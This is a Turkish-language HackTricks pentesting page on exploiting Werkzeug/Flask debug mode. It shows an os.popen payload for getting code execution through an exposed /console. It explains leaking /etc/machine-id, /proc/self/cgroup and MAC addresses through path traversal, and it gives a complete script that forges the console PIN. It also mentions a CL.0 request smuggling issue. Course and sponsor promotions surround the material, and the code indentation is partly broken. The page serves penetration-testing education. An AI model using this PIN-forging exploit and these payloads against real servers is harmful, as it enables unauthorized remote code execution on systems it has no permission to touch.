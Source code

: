 # Werkzeug / Flask Hata Ayıklama

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI'na**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Anında kullanılabilir zafiyet değerlendirme ve penetrasyon testi kurulumu**. 20'den fazla araç ve özellikle her yerden tam bir pentest çalıştırın, keşiften raporlamaya kadar uzanan. Pentester'ları değiştirmiyoruz - özel araçlar, tespit ve istismar modülleri geliştiriyoruz, böylece daha derine inmek, kabukları patlatmak ve eğlenmek için zaman kazanıyorlar.

{% embed url="https://pentest-tools.com/" %}

## Konsol RCE

Hata ayıklama etkinse `/console`'a erişmeyi deneyebilir ve RCE elde edebilirsiniz.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

İnternette [bu](https://github.com/its-arun/Werkzeug-Debug-RCE) gibi birkaç açık bulunmaktadır veya metasploit'te bir tane.

## Pin Korumalı - Yol Geçişi

Bazı durumlarda **`/console`** ucu bir pin ile korunabilir. Eğer bir **dosya geçişi açığı**nız varsa, o pin'i oluşturmak için gerekli tüm bilgileri sızdırabilirsiniz.

### Werkzeug Console PIN Sızma Açığı

Uygulamada bir hata sayfası oluşturarak bunu görüntüleyin:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
### Konsol Kilitli Senaryosu

Werkzeug'in hata ayıklama arayüzüne erişmeye çalışırken "konsol kilitli" senaryosuyla karşılaşılır ve konsolu kilidini açmak için bir PIN gerektiği belirtilir. Werkzeug'ın hata ayıklama başlatma dosyasındaki (`__init__.py`) PIN oluşturma algoritmasını analiz ederek konsol PIN'ini sömürme önerilir. PIN oluşturma mekanizması [**Werkzeug kaynak kodu deposundan**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) incelenebilir, ancak olası sürüm farklılıkları nedeniyle gerçek sunucu kodunu dosya gezintisi açığı aracılığıyla temin etmek tavsiye edilir.

Konsol PIN'ini sömürmek için `probably_public_bits` ve `private_bits` olmak üzere iki set değişkene ihtiyaç vardır:

#### **`probably_public_bits`**

* **`username`**: Flask oturumunu başlatan kullanıcıyı ifade eder.
* **`modname`**: Genellikle `flask.app` olarak belirlenir.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Genellikle **Flask**'a çözümlenir.
* **`getattr(mod, '__file__', None)`**: Flask dizinindeki `app.py`'nin tam yolunu temsil eder (örneğin, `/usr/local/lib/python3.5/dist-packages/flask/app.py`). `app.py` uygun değilse, **`app.pyc`** deneyin.

#### **`private_bits`**

* **`uuid.getnode()`**: Geçerli makinenin MAC adresini alır ve `str(uuid.getnode())` ile onu ondalık formata çevirir.
* **Sunucunun MAC adresini belirlemek için, uygulama tarafından kullanılan etkin ağ arabirimini tanımlamak gerekir (örneğin, `ens3`). Belirsiz durumlarda, cihaz kimliğini bulmak için **`/proc/net/arp`'yi sızdırın**, ardından **MAC adresini** **`/sys/class/net/<cihaz kimliği>/address`**'den çıkarın.
*   Bir onaltılık MAC adresini ondalık formata dönüştürme aşağıdaki gibi gerçekleştirilebilir:

```python
# Örnek MAC adresi: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: `/etc/machine-id` veya `/proc/sys/kernel/random/boot_id` ile `/proc/self/cgroup`'ın son eğik çizgisinden sonraki ilk satırını birleştirir.
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Gerekli tüm veriler toplandıktan sonra, açıklayıcı betik yürütülerek Werkzeug konsolu PIN'i oluşturulabilir. Betik, birleştirilmiş `probably_public_bits` ve `private_bits` kullanarak bir karmayı oluşturur, ardından bu karmadan geçerek nihai PIN üretilir. Aşağıda bu işlemi yürütmek için Python kodu bulunmaktadır:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Bu betik, bitlerin birleştirilmesiyle PIN'i oluşturur, belirli tuzlar (`cookiesalt` ve `pinsalt`) ekler ve çıktıyı biçimlendirir. Üretilen PIN'in Werkzeug konsolu tarafından beklenen PIN ile eşleşmesini sağlamak için `probably_public_bits` ve `private_bits` için gerçek değerlerin hedef sistemden doğru bir şekilde alınması önemlidir.

{% hint style="success" %}
Eğer Werkzeug'in **eski bir sürümünde** iseniz, **sha1** yerine **md5 karma algoritmasını** denemeyi düşünebilirsiniz.
{% endhint %}

## Werkzeug Unicode karakterleri

[**Bu sorunda**](https://github.com/pallets/werkzeug/issues/2833) gözlemlendiği gibi, Werkzeug başlıkta Unicode karakterleri olan bir isteği kapatmaz. Ve [**bu yazıda**](https://mizu.re/post/twisty-python) açıklandığı gibi, bu bir CL.0 İstek Kaçırma zafiyetine neden olabilir.

Bu, Werkzeug'de bazı **Unicode** karakterlerinin gönderilebilmesinin ve sunucunun **çökmesine** neden olabileceğinin mümkün olmasıdır. Ancak, eğer HTTP bağlantısı **`Connection: keep-alive`** başlığı ile oluşturulmuşsa, isteğin gövdesi okunmayacak ve bağlantı hala açık kalacaktır, bu nedenle isteğin **gövdesi** bir sonraki HTTP isteği olarak işleme alınacaktır.

## Referanslar

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Anında kullanılabilir zayıflık değerlendirme ve penetrasyon testi kurulumu**. 20'den fazla araç ve özellikle tam bir pentest çalıştırın, keşiften raporlamaya kadar uzanan özelliklerle. Pentester'ları değiştirmiyoruz - onlara daha derinlemesine kazmak, kabuklar açmak ve eğlenmek için biraz zaman kazandırmak için özel araçlar, tespit ve istismar modülleri geliştiriyoruz.

{% embed url="https://pentest-tools.com/" %}

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
* **💬 Discord grubuna** **katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**'u takip edin**.
* **Hacking püf noktalarınızı göndererek HackTricks ve HackTricks Cloud** github depolarına PR'lar göndererek paylaşın.

</details>
